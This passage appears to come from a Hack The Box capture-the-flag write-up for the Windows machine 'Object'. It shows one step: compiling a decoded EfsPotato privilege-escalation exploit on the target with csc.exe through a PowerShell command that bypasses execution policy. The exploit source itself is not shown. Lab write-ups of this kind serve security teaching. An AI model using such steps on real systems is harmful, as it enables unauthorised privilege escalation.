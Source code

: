 ![light mode only](/assets/img/posts/htb/machines/windows/hard/object/object_32.png){: .light .w-100 .shadow .rounded-10 w='1212' h='668' }
![dark mode only](/assets/img/posts/htb/machines/windows/hard/object/object_32.png){: .dark .w-100 .shadow .rounded-10 w='1212' h='668' }


With the EfsPotato exploit decoded and the original contents of the exploit stored within `efspot.cs`, we can now utilise the `csc.exe` executable on the windows host machine to directly compile the exploit on the system.

We can achieve this by executing the command below which will compile our exploit as `efspot.exe`:\
`cmd.exe /c powershell -NoProfile -ExecutionPolicy Bypass -Command "C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe /out:%TEMP%\resource.temp\efspot.exe %TEMP%\resource.temp\efspot.cs -nowarn:1691,618"`
